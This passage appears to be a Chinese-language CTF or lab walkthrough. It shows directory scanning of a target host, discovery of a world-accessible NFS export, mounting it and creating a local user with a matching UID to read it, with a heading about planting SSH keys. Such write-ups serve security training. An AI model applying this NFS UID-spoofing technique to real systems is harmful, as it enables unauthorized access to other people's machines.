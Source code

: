 使用dirsearch进行目录扫描：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dirsearch -q -u http://192.168.205.173/
...
[03:52:07] 403 -  280B  - http://192.168.205.173/.htaccess.bak1
[03:52:07] 403 -  280B  - http://192.168.205.173/.htaccess.sample
...
```

Web服务返回403错误，无有效信息可利用。

# 二、NFS服务利用

## 2.1 NFS共享发现

使用showmount命令查看NFS共享：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ showmount -e 192.168.205.173
Export list for 192.168.205.173:
/home/ll104567 *
```

发现共享目录`/home/ll104567`，权限为所有主机可访问。

## 2.2 挂载NFS共享

创建挂载点并挂载NFS共享：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo mkdir -p /mnt/ll104567

┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo mount -t nfs 192.168.205.173:/home/ll104567 /mnt/ll104567
```

检查挂载的目录权限：

```bash
┌──(kali㉿kali)-[/mnt]
└─$ ls -al
drwx------  2 6666 6666 4096  8月21日 03:45 ll104567
```

发现用户ID为6666，需要创建对应用户来访问。

## 2.3 权限匹配与SSH密钥植入

创建匹配UID的用户：

```bash
┌──(kali㉿kali)-[/mnt]
└─$ sudo useradd -u 6666 nfsuser

┌──(kali㉿kali)-[/mnt]
└─$ sudo su - nfsuser
$ bash
nfsuser@kali:/mnt$ cd /mnt/ll104567/
```
